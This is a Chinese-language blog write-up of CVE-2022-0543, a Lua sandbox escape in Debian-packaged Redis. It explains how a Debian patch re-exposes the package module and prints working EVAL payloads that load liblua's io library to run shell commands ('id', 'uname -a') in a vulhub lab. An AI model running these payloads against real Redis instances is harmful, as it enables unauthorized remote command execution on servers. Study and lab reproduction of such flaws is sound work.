


# CVE-2022-0543 Redis Lua 沙盒逃逸 RCE - Adminxe - 博客园

> 原文：[`www.cnblogs.com/cn-gov/p/16002531.html`](https://www.cnblogs.com/cn-gov/p/16002531.html)


## 0x00 背景

巴西研究员 Reginaldo Silva 于 2022 年 3 月 8 日公开披露 该漏洞,从他的博客得知 CVE-2022-0543 该 Redis 沙盒逃逸漏洞仅影响 Debian 系的 Linux 发行版本,并非 Redis 本身漏洞

https://www.ubercomp.com/posts/2022-01-20_redis_on_debian_rce

## 0x01 条件

1.  未授权访问或拿到账号密码
2.  目标为 Debian 及其衍生版

## 0x02 原理

首先,redis 一直有一个攻击面,就是在用户连接 redis 后,可以通过 eval 命令执行 lua 脚本.

但这个脚本跑在沙箱里,正常情况下无法执行命令,读取文件

本质是一个沙箱绕过漏洞

Ubuntu/Debian/CentOS 等这些发行版本会在原始软件的基础上打一些补丁包



比如 Debian 给 Redis 打的补丁,增加了一个 include

Debian 以及 Ubuntu 发行版的源在打包 Redis 时，不慎在 Lua 沙箱中遗留了一个对象 package，攻击者可以利用这个对象提供的方法加载动态链接库 liblua 里的函数，进而逃逸沙箱执行任意命令。
我们借助 Lua 沙箱中遗留的变量 package 的 loadlib 函数来加载动态链接库/usr/lib/x86_64-linux-gnu/liblua5.1.so.0 里的导出函数 luaopen_io。在 Lua 中执行这个导出函数，即可获得 io 库，再使用其执行命令。
作者提到不同系统下 liblua5.1.so.0 的路径可能不同
不能打红帽系有点鸡肋了
但目前 Debian 系作为服务器的情况也是较多

debian 这个 include 的这段代码是在 make 的时候用 shell 脚本动态生成的： 

```
 debian/lua_libs_debian.c:
    echo "// Automatically generated; do not edit." >$@
    echo "luaLoadLib(lua, LUA_LOADLIBNAME, luaopen_package);" >>$@
    set -e; for X in $(LUA_LIBS_DEBIAN_NAMES); do \
        echo "if (luaL_dostring(lua, \"$$X = require('$$X');\"))" >>$@; \
        echo "    serverLog(LL_NOTICE, \"Error loading $$X library\");" >>$@; \
    done
    echo 'luaL_dostring(lua, "module = nil; require = nil;");' >>$@
```

***-> luaLoadLib(lua, LUA_LOADLIBNAME, luaopen_package);***

在原始的 redis 源码里全局搜索一下这句话,可以发现这句话原本就是存在于源码里的，但是通过条件宏的方式注释掉了，将其注释掉的原因就是“for sandboxing concerns”。



但是 Debian 的这个补丁却把这句话重新写进去了，而这句话的意思就是向 lua 的上下文中注入一个 package 模块

我们可以利用这个模块，来加载任意 Lua 库，最终逃逸沙箱，执行任意命令：

```
 local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io");
local io = io_l();
local f = io.popen("id", "r");
local res = f:read("*a");
f:close();
return res
```

## 0x03 漏洞复现

https://github.com/vulhub/vulhub/tree/master/redis/CVE-2022-0543

搭建好的环境是 redis 5.0.7，且存在未授权

#### payload

```
 eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("uname -a", "r"); local res = f:read("*a"); f:close(); return res' 0

eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("id", "r"); local res = f:read("*a"); f:close(); return res' 0
```


转载请注明：[Adminxe's Blog](https://www.adminxe.com/) » [CVE-2022-0543 Redis Lua 沙盒逃逸 RCE](https://www.adminxe.com/3620.html)

喜欢 (1)or 分享 (0)